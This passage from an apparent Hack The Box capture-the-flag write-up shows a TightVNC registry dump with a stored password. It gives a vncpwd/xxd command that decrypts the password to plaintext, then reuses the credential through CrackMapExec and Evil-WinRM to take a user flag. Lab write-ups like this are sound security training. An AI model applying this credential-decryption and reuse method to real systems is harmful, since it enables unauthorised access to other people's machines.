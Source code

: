 ```
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```
Inside the file, there's an entry for a hex-encoded password separated by commas. After doing some research on VNC passwords,
we firstly must remove the commas to turn the password from `6b,cf,2a,4b,6e,5a,ca,0f` to `6bcf2a4b6e5aca0f`.
Searching for a tool to help from GitHub, I stumbled upon [vncpwd](https://github.com/jeroennijhof/vncpwd). Echoing the password
straight into `vncpwd` doesn't seem to do anything, we must run it through `xxd` to properly output it as a hexdump. No characters
left behind.
```sh
./vncpwd <(echo "6bcf2a4b6e5aca0f" | xxd -r -ps)
```
```
Password: sT333ve2
```
With this new password, we can run it against `CrackMapExec` again.<br>
![ssmith](htb_ssmith.png "ssmith")
_s.smith_

With our new user, we're afforded new SMB shares but first, we can get an `Evil-WinRM` session to grab the user flag.<br>
![user.txt](htb_user.png "user.txt")
_user.txt_
